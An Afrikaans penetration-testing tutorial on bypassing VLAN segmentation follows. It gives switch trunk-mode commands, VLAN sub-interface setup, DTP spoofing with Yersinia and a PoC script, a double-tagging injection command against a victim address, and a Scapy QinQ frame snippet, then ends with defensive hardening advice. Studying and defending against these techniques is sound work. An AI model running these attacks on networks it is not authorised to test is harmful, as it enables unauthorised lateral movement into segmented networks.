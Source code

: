 # Lateral VLAN Segmentation Bypass

{{#include ../../banners/hacktricks-training.md}}

As direkte toegang tot 'n skakel beskikbaar is, kan VLAN-segmentering omseil word. Dit behels die herkonfigurasie van die gekonnekteerde poort na trunk-modus, die vestiging van virtuele interfaces vir teiken VLANs, en die instelling van IP-adresse, hetsy dinamies (DHCP) of staties, afhangende van die scenario (**vir verdere besonderhede kyk [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)).**

Aanvanklik is identifikasie van die spesifieke gekonnekteerde poort nodig. Dit kan tipies deur CDP-boodskappe gedoen word, of deur die poort te soek via die **include** masker.

**As CDP nie werk nie, kan poortidentifikasie probeer word deur die MAC-adres te soek**:
```
SW1(config)# show mac address-table | include 0050.0000.0500
```
Voor die oorgang na trunk-modus, moet 'n lys van bestaande VLANs saamgestel word, en hul identifiseerders bepaal. Hierdie identifiseerders word dan aan die koppelvlak toegeken, wat toegang tot verskeie VLANs deur die trunk moontlik maak. Die poort wat gebruik word, is byvoorbeeld geassosieer met VLAN 10.
```
SW1# show vlan brief
```
**Oorgang na trunk-modus behels die invoer van interface-konfigurasie-modus**:
```
SW1(config)# interface GigabitEthernet 0/2
SW1(config-if)# switchport trunk encapsulation dot1q
SW1(config-if)# switchport mode trunk
```
Die oorgang na trunk-modus sal tydelik konneksie ontwrig, maar dit kan daarna herstel word.

Virtuele interfaces word dan geskep, VLAN-ID's toegeken en geaktiveer:
```bash
sudo vconfig add eth0 10
sudo vconfig add eth0 20
sudo vconfig add eth0 50
sudo vconfig add eth0 60
sudo ifconfig eth0.10 up
sudo ifconfig eth0.20 up
sudo ifconfig eth0.50 up
sudo ifconfig eth0.60 up
```
Daarna word 'n adresversoek via DHCP gemaak. Alternatiewelik, in gevalle waar DHCP nie haalbaar is nie, kan adresse handmatig gekonfigureer word:
```bash
sudo dhclient -v eth0.10
sudo dhclient -v eth0.20
sudo dhclient -v eth0.50
sudo dhclient -v eth0.60
```
Voorbeeld van handmatig 'n statiese IP-adres op 'n koppelvlak (VLAN 10) in te stel:
```bash
sudo ifconfig eth0.10 10.10.10.66 netmask 255.255.255.0
```
Verbondenheid word getoets deur ICMP versoeke na die standaard gateways vir VLANs 10, 20, 50, en 60 te begin.

Uiteindelik stel hierdie proses die omseiling van VLAN-segmentasie in staat, wat onbeperkte toegang tot enige VLAN-netwerk fasiliteer, en die grondslag vir daaropvolgende aksies lê.

---

## Ander VLAN-Hopping Tegnieke (geen bevoorregte skakelaar CLI)

Die vorige metode neem aan dat daar geverifieerde konsole of Telnet/SSH toegang tot die skakelaar is. In werklike betrokkenhede is die aanvaller gewoonlik aan 'n **gewone toegangspoort** gekoppel. Die volgende Laag-2 truuks laat jou dikwels lateraal beweeg sonder om ooit in die skakelaar OS in te teken:

### 1. Skakelaar-Spoofing met Dynamiese Trunking Protokol (DTP)

Cisco-skakelaars wat DTP geaktiveer hou, sal gelukkig 'n trunk onderhandel as die maat beweer 'n skakelaar te wees. Om 'n enkele **DTP “desirable”** of **“trunk”** raam te skep, omskep die toegangspoort in 'n 802.1Q trunk wat *alle* toegelate VLANs dra.

*Yersinia* en verskeie PoCs outomatiseer die proses:
```bash
# Become a trunk using Yersinia (GUI)
$ sudo yersinia -G          # Launch GUI → Launch attack → DTP → enabling trunking

# Python PoC (dtp-spoof)
$ git clone https://github.com/fleetcaptain/dtp-spoof.git
$ sudo python3 dtp-spoof/dtp-spoof.py -i eth0 --desirable
```
Sodra die poort na trunk oorgeskakel word, kan jy 802.1Q sub-interfases skep en presies soos in die vorige afdeling getoon, pivot. Moderne Linux-kernels vereis nie meer *vconfig* nie; gebruik eerder *ip link*:
```bash
sudo modprobe 8021q
sudo ip link add link eth0 name eth0.30 type vlan id 30
sudo ip addr add 10.10.30.66/24 dev eth0.30
sudo ip link set eth0.30 up
```
### 2. Dubbel-Tagging (Native-VLAN Misbruik)

As die aanvaller op die **native (onttag) VLAN** sit, kan 'n vervaardigde raam met *twee* 802.1Q koppe "spring" na 'n tweede VLAN selfs wanneer die poort in toegangmodus vergrendel is. Gereedskap soos **VLANPWN DoubleTagging.py** (2022-2024 opknapping) outomatiseer die inspuiting:
```bash
python3 DoubleTagging.py \
--interface eth0 \
--nativevlan 1 \
--targetvlan 20 \
--victim 10.10.20.24 \
--attacker 10.10.1.54
```
Packet walk-through:
1. Buiteteg (1) word verwyder deur die eerste skakel omdat dit die inheemse VLAN ooreenstem.
2. Binne-tag (20) is nou blootgestel; die raamwerk word na die trunk na VLAN 20 gestuur.

Die tegniek werk steeds in 2025 op netwerke wat die inheemse VLAN op die standaard laat en ongetagde rame aanvaar.

### 3. QinQ (802.1ad) Stacking

Baie ondernemingskerns ondersteun *Q-in-Q* diensverskaffer enkapsulasie. Waar toegelaat, kan 'n aanvaller willekeurige 802.1Q-getagde verkeer binne 'n verskaffer (S-tag) tonnel om sekuriteitsgebiede oor te steek. Vang vir 802.1ad ethertype 0x88a8 en probeer om die buiteteg met Scapy te pop.
```python
from scapy.all import *
outer = 100      # Service tag
inner = 30       # Customer / target VLAN
payload = Ether(dst="ff:ff:ff:ff:ff:ff")/Dot1Q(vlan=inner)/IP(dst="10.10.30.1")/ICMP()
frame = Dot1Q(type=0x88a8, vlan=outer)/payload
sendp(frame, iface="eth0")
```
---

## Verdedigende Aanbevelings

1. Deaktiveer DTP op alle gebruikersfrontpoorte: `switchport mode access` + `switchport nonegotiate`.
2. Verander die inheemse VLAN op elke trunk na 'n **onbenutte, swartgat VLAN** en tag dit: `vlan dot1q tag native`.
3. Snoei onnodige VLANs op trunks: `switchport trunk allowed vlan 10,20`.
4. Handhaaf poortsekuriteit, DHCP snooping & dinamiese ARP-inspeksie om onwettige Laag-2 aktiwiteit te beperk.
5. Verkies private-VLANs of L3 segmentasie eerder as om slegs op 802.1Q skeiding te vertrou.

---

## Verwysings

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)
- VLANPWN aanval toolkit – <https://github.com/casterbytethrowback/VLANPWN>
- Twingate "Wat is VLAN Hopping?" (Aug 2024) – <https://www.twingate.com/blog/glossary/vlan%20hopping>

{{#include ../../banners/hacktricks-training.md}}
